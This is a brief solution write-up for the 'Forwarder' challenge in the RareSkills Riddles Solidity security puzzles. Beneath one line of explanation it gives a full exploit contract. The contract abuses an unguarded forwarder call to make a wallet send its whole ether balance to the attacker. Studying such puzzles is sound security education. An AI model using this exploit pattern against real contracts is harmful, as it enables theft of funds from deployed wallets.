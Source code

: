# 01 RareSkills Riddles - Forwarder

We can make a call to the forwarder which will then male low call to the wallet and send us the ether.


Exploit: 

```

contract ForwarderExploit {
    Forwarder forwarder;
    Wallet wallet;

    constructor(address _forwarder, address _wallet) {
        forwarder = Forwarder(_forwarder);
        wallet = Wallet(_wallet);
    }

    function exploit() external {
        bytes memory data = abi.encodeWithSignature(
            "sendEther(address,uint256)",
            address(this),
            address(wallet).balance
        );
        forwarder.functionCall(address(wallet), data);
    }

    receive() external payable {}
}
```

